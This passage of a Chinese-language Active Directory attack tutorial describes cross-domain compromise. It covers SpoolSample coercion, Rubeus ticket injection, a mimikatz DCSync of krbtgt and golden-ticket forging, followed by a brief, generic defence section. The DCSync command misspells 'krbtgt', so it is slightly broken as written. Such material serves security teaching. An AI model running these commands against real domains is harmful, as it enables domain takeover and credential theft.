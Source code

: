 该工具的项目在：[leechristensen/SpoolSample: PoC tool to coerce Windows hosts authenticate to other machines via the MS-RPRN RPC interface. This is possible via other protocols as well. (github.com)](https://github.com/leechristensen/SpoolSample)

发送后，在Rubeus会捕捉来自bdc.b.com的认证请求，保存其中的TGT数据。

注意需要清除TGT数据文件中多余的换行符，然后输入如下命令载入票据：

```powershell
Rubeus.exe ptt /ticket:<TGT数据>
```

使用mimikatz获取目标域的krbtgt散列值，使用dcsync功能，模拟域控向目标域控发送请求：

```powershell
mimikatz "lsadump::dcsync /domain:B.com /user:B\krbtft" exit
```

随后构造黄金票据并注入内存，获取目标域控的权限：

```powershell
mimikatz "kerberos::golden /user:Administrator /domain:B.com /sid:S-1-5-21-XXXXXX-XXXXX-XXXXX /rc4:xxxxxxxxxxx /ptt" exit
```

最后验证权限：

```powershell
dir \\bdc.b.com\C$
```

### 防范跨域攻击

攻击者在获取当前域控的权限后，会检查域控的本地管理员密码是否与其它域的域控本地管理员密码相同，以及两个域之间的网络没有被隔离的情况下是否可以通过哈希传递进行横向攻击等。

在日常网络维护中，需要养成良好的安全习惯，才能有效地防范跨域攻击。
